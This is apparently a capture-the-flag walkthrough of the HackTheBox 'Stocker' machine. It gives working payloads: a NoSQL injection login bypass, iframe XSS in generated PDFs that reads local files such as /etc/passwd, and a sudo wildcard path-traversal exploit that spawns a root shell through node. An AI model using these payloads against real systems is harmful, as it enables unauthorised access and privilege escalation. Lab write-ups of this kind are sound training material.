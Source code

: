 ```yaml
---
title: HackTheBox - Stocker
categories: [HackTheBox, HackTheBox - Linux]
date: 2023-06-10
tags: [xss, lfi, nosqli, wildcard, node, pdf]
img_path: /Writeups/HackTheBox/Linux/Stocker/images/
image:
  src: Pasted%20image%2020230625002217.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```



# Overview 
Machine begins with a subdomain enumeration, discovering `dev.stocker.htb`, where it is susceptible to a `NoSQLi` login bypass. Exploiting this vulnerability granted access to the cart checkout page, which was found to be vulnerable to a cross-site scripting to local file inclusion (XSS2LFI) attack. By leveraging the XSS vulnerability, it was possible to perform local file inclusion (LFI) and gain access to the `index.js` file, which contained credentials for the user `angoose`.

Next, it was observed that the user `angoose` possessed the privilege to execute the command `sudo /usr/bin/node /usr/local/scripts/*.js`. The usage of the wildcard (`*`) in the command created a vulnerability that allowed for directory traversal, enabling the execution of a malicious payload. privilege escalating us to `root`.


---

| Column       | Details      |
| ------------ | ------------ |
| Box Name     | Stocker      |
| IP           | 10.10.11.196 |
| Points       | 20           |
| Difficulty   | Easy         |
| Creator      |          [JoshSH](https://www.hackthebox.com/home/users/profile/269501)     |
| Release Date | 14 Jan 2023             |


# Recon

## TCP/80 (HTTP)
- FFUF
	- Could not enumerate any interesting files
- Enumerate for subdomains
	```
	┌──(root💀kali)-[~/htb/stocker]
	└─# ffuf -u http://stocker.htb -H "Host: FUZZ.stocker.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fc 301
	
	dev                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 249ms]
	```
	> `dev.stocker.htb` - add it to your `/etc/hosts`
	{: .prompt-info}

# Initial Foothold

## TCP/80 (HTTP) - NoSQLi
1.  Proceed to `http://dev.stocker.htb`, found a login page
2. With `webappalyzer` found that page is running on `node.js`
	![](Pasted%20image%2020230610175108.png)
	> Since it is `node.js` , we can try NoSQLi
	{: .prompt-info}
3. NoSQLi worked
	```
	# Payload
	POST /login HTTP/1.0
	Host: dev.stocker.htb
	User-Agent: Mozilla/5.0 (Hydra Proxy)
	Content-Length: 59
	Content-Type: application/json
	Cookie: connect.sid=s%3AqAR-6lAK22yFu_5EbRGEq3zlLw0ch7dB.fQcRonylfrEFjjkKqs6H6wQgHouF%2FBB7btxpEfskgbA
	Connection: close
	
	{"username": {"$ne": null}, "password": {"$ne": null} }
	```
	> - Change content type to `application/json`
	{: .prompt-info}
4. Demo - NoSQLi 
	![](uLV6UuMCM9.gif)
5. Web directory
	![](Pasted%20image%2020230610233351.png)
	>`/var/www/dev/`
	{: .prompt-info}

## TCP/80 - XSS2LFI
1. Add items to cart and checkout, intercept w/ `burp`
	![](Pasted%20image%2020230610232347.png)
	> There are a lot of parameters that could be vulnerable, we'll have to try them one by one
	{: .prompt-info}
2. Download the purchase order to look at the metadata w/ `exiftool`
	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# exiftool asdf.pdf
	ExifTool Version Number         : 12.44
	File Name                       : asdf.pdf
	Directory                       : .
	File Size                       : 41 kB
	File Modification Date/Time     : 2023:06:10 23:10:55+08:00
	File Access Date/Time           : 2023:06:10 23:10:54+08:00
	File Inode Change Date/Time     : 2023:06:10 23:11:06+08:00
	File Permissions                : -rw-r--r--
	File Type                       : PDF
	File Type Extension             : pdf
	MIME Type                       : application/pdf
	PDF Version                     : 1.4
	Linearized                      : No
	Page Count                      : 1
	Tagged PDF                      : Yes
	Creator                         : Chromium
	Producer                        : Skia/PDF m108
	Create Date                     : 2023:06:10 15:05:00+00:00
	Modify Date                     : 2023:06:10 15:05:00+00:00
	```
	>`Skia/PDF m108` - Google it
	{: .prompt-info}
3. `title` parameter is susceptible to `XSS`, allowing us to do LFI
	```
	# Payload
	"title":"<iframe src=/etc/passwd>",
	```
	![](Pasted%20image%2020230610233121.png)

4. View `index.js` (Because web running on `node.js`)
	```
	# Payload
	"title":"<iframe width=1000 height=1000 src=/var/www/dev/index.js></iframe>"
	```
	![](Pasted%20image%2020230610234140.png)
	>`dev:IHeardPassphrasesArePrettySecure`
	{: .prompt-info}


## TCP/22 (SSH) 
1. Since `dev` user does not exist, `ssh` into user `angoose`
	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@stocker.htb
	Last login: Sat Jun 10 00:32:45 2023 from 10.10.14.2
	angoose@stocker:~$ id;whoami
	uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
	angoose
	angoose@stock
	```

# Privilege Escalation

## Root - Wildcard + Node Sudo
1. User `angoose` sudo access
	```
	angoose@stocker:/var/www/dev$ sudo -l
	Matching Defaults entries for angoose on stocker:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User angoose may run the following commands on stocker:
	    (ALL) /usr/bin/node /usr/local/scripts/*.js
	```
	> - The usage of `*` makes this sudo privilege vulnerable, we are able to do directory traversal and point `/usr/bin/node` to any file we want 
	> - `/usr/local/scripts/../../../../../../tmp/something.js` works 
	{: .prompt-info}
2. Create payload `/tmp/exploit.js`
	```
	angoose@stocker:/var/www/dev$ nano /tmp/exploit.js
	require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
	angoose@stocker:/var/www/dev$ chmod +x /tmp/exploit.js
	```
3. Execute our exploit w/ `/usr/bin/node` to `root`
	```
	# Payload
	sudo /usr/bin/node /usr/local/scripts/../../../../../../../tmp/exploit.js
	```

4. Demo - `Node` sudo + wildcard
	![](WVtAYUrw1W.gif)
